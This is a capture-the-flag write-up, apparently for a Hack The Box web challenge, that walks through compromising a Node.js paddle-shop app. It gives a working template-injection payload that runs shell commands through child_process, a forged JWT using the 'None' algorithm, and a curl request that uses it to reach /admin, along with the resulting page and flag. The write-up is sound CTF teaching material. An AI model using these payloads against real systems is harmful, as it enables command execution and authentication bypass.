 # Didactic Octo Paddle

You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river. You must hack into the paddle shop's system to obtain information on the relic's location. Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.

## Writeup

Create a user named:

```js
username: {{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
password: ciao
```

Now we must find a way to go in **/admin** with the correct **jwt** session token.

Modify the jwt session token by using this json bsa64:

```json
{
  "alg": "None",
  "typ": "JWT"
}
```

In base64:

```base64
ewogICJhbGciOiAiTm9uZSIsCiAgInR5cCI6ICJKV1QiCn0=
```

```json
{
  "id": 1,
  "iat": 1679253240
}
```

```base64
ewogICJpZCI6IDEsCiAgImlhdCI6IDE2NzkyNTMyNDAKfQ==
```

Now we can marge the custom **jwt**.

Do not insert the **=** character and **.** at the end.

This is the token:

```
ewogICJhbGciOiAiTm9uZSIsCiAgInR5cCI6ICJKV1QiCn0.ewogICJpZCI6IDEsCiAgImlhdCI6IDE2NzkyNTMyNDAKfQ.
```

Use it to go in the **/admin** page and display the flag (change the ip and port address first):

```bash
curl -X GET http://68.183.37.122:30420/admin \
    -H 'Cookie: session=ewogICJhbGciOiAiTm9uZSIsCiAgInR5cCI6ICJKV1QiCn0.ewogICJpZCI6IDEsCiAgImlhdCI6IDE2NzkyNTMyNDAKfQ.'
```

This is the output:

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <title>Admin Dashboard</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <link rel="icon" href="/static/images/favicon.png" />
  <link href="https://cdn.jsdelivr.net/npm/bootswatch@5.2.3/dist/cerulean/bootstrap.min.css" rel="stylesheet" />
  <link href="https://fonts.googleapis.com/css2?family=Press+Start+2P&display=swap" rel="stylesheet" />
  <link rel="stylesheet" type="text/css" href="/static/css/main.css" />
</head>

<body>
  <div class="d-flex justify-content-center align-items-center flex-column" style="height: 100vh;">
    <h1>Active Users</h1>
    <ul class="list-group small-list">
      
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>admin</span>
        </li>
      
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
</span>
        </li>
      
    </ul>
  </div>
</body>

</html> 
```

With the flag:

```
HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}
```